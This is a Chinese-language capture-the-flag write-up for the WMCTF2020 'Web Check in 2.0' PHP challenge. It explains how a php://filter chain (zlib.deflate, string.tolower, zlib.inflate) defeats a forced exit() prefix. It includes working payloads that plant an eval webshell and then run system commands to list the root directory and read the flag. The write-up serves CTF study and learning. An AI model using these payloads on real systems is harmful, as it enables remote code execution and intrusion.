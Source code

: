 ```yaml
---
title: '[WMCTF2020]Web Check in 2.0'
date: 2024-11-06 19:23:40
tags: 
      - php伪协议
      - 死亡绕过
categories: 刷题笔记
---
```


## [WMCTF2020]Web Check in 2.0

我们进入题目看到一大串代码

```php
string(62) "Sandbox:/var/www/html/sandbox/ec53bc853c0c94f2bf546edd1a265425" <?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/sandbox/' . md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
var_dump("Sandbox:".$sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    file_put_contents($content,'<?php exit();'.$content);
}
```

先根据remote_addr给每个人创建一个沙盒，然后把工作目录切换至该沙盒里，防止影响其他环境。然后存在一个参数content，里面过滤了一些方法比如base64、quoted之类的，然后检验到文件$content存在后，会require_once它，不过会在其中写入`<?php exit();`

所以这道题考的就是死亡绕过了

[关于file_put_contents的一些小测试](https://cyc1e183.github.io/2020/04/03/关于file_put_contents的一些小测试/)

由于吧base64过滤了，就只剩下**字符串过滤器中的部分**和**压缩过滤器**以及**加密过滤器**，所以可以考虑从这几个过滤器入手

我们使用`zlib`的`zlib.deflate`和`zlib.inflate`，组合使用压缩后再解压后内容肯定不变，不过我们可以在中间遍历一下剩下的几个过滤器，看看中间进行什么操作会影响后续inflate的内容，简单遍历一下可以发现中间插入string.tolower转后会把空格和exit处理了就可以绕过exit

简单来说就是通过压缩和解压进行绕过

payload:

```php
?content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=123.php
```

然后我们执行命令

```php
?content=123.php&1=system('ls /');
```

不过执行一次后，文件就消失了，我们我们需要重新上传shell在执行命令

得到flag

```
?content=123.php&1=system(%22cat%20../../../../../flag_2233_elkf3ifj34ij3orf3fk4%22);
```

![image-20241106195856052](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411061959172.png)
